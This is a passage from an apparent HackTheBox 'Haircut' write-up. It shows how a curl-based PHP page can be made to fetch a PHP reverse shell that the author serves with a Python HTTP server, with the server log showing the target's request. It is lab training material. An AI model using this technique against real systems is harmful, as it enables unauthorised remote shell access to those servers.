 ![exposed_php_2](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Haircut/exposed_php_2.png?raw=true)

It looks like the script is trying to `curl` something from the user specified location. Let’s try hosting our own webserver to host a PHP reverse shell.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# mousepad revshell.php                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [26/Apr/2022 11:00:27] "GET /revshell.php HTTP/1.1" 200 -
```
